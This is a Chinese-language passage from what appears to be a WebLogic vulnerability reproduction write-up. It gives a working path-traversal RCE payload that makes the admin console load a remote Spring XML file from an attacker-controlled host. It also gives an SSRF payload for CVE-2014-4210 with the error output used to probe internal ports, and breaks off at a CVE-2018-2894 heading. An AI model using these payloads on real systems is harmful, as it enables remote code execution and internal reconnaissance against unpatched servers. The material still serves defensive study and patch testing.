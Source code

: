 然后让其加载

```
/console/css/%252e%252e%252fconsole.portal?_nfpb=true&amp;_pageLabel=&amp;handle=com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext(&#34;http://ip:port/1.xml&#34;)
```

![image-20250505175100638](https://6s6photo.oss-cn-chengdu.aliyuncs.com/20250625175618075.png)

### CVE-2014-4210 SSRF

#### 影响版本

Oracle WebLogic Server 10.0.2, 10.3.6

#### 漏洞复现

WebLogic 的 `SearchPublicReqistries.jsp` 接口存在 SSRF 漏洞，如果服务端或内网存在 Redis 未授权访问漏洞等则可以进一步打漏洞组合拳进行攻击利用。

`SearchPublicReqistries.jsp` 在 `/wlserver/server/lib/uddiexplorer.war` 中

![image-20250505183040716](https://6s6photo.oss-cn-chengdu.aliyuncs.com/20250625175618106.png)

`operator` 参数就是传进去的 url，然后 `search.getResponse()` 就会向这个 url 发送请求，而且这个服务没有任何鉴权，可以直接访问，用 payload 探测下 7001 端口

```
/uddiexplorer/SearchPublicRegistries.jsp?rdoSearch=name&amp;txtSearchname=sdf&amp;txtSearchkey=&amp;txtSearchfor=&amp;selfor=Business&#43;location&amp;btnSubmit=Search&amp;operator=http://127.0.0.1:7001
```

回显为

```
An error has occurred
weblogic.uddi.client.structures.exception.XML_SoapException: The server at http://127.0.0.1:7001 returned a 404 error code (Not Found). Please ensure that your URL is correct, and the web service has deployed without error. 
```

当探测 7000 端口时回显

```
An error has occurred
weblogic.uddi.client.structures.exception.XML_SoapException: Tried all: &#39;1&#39; addresses, but could not connect over HTTP to server: &#39;127.0.0.1&#39;, port: &#39;7000&#39; 
```

可以看到 7001 端口只是没找到服务而 7000 端口都不能建立 http 连接，可以通过这个来探测端口

### CVE-2018-2894 任意文件上传

#### 影响版本

Weblogic 10.3.6，12.1.3，12.2.1.2，12.2.1.3
